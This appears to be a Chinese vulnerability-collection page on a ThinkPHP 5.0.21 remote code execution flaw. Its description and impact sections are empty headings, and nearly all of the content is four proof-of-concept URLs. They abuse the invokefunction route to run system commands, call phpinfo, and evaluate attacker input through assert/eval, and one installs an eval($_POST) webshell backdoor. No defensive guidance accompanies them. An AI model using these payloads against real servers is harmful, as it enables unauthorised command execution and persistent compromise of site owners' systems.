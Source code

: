 # Thinkphp 5.0.21

> 原文：[http://book.iwonder.run/0day/Thinkphp/7.html](http://book.iwonder.run/0day/Thinkphp/7.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、poc

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### 2、poc

```
http://0-sec.org/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

### 3、poc

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=system("whoami"); 
```

### 4、poc

```
http://0-sec.org/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@eval($_GET['fuck']);&fuck=eval($_POST[ian]); 
```

